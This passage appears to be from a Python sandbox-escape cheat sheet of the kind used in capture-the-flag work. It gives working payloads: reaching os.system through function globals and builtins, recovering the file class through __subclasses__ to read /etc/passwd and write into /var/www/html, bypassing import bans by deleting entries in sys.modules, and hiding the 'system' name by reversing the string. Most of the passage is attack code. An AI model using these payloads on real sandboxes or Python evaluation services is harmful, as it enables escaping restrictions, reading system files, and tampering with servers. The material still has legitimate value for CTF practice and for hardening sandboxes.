 {% tab title="Python3" %}
```text
get_flag.__globals__['__builtins__'].__import__("os").system("ls")
```
{% endtab %}
{% endtabs %}

### Recovering file read / write

{% tabs %}
{% tab title="Python2" %}
```python
# Read recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
# Write recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
```
{% endtab %}
{% endtabs %}

## 3. Restriction on importing libraries 

#### restore `sys.modules`

When `os` is removed from `sys.modules`, it cannot be used anymore.

```text
wrong way:

''' when importing a module, a new object would be created because there is not such a key in the dictionary'''
>>> del sys.modules['os']

correct way:

>>> sys.modules['os'] = 'not allowed'
>>> import os
>>> os.system('ls')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute 'system'
```

**bypass it**

```text
sys.modules['os'] = 'not allowed' # 

del sys.modules['os']
import os
os.system('ls')
```

#### execute forbidden method

```text
import os
getattr(os, 'metsys'[::-1])('whoami')

os.__getattribute__('system')('ls')
```

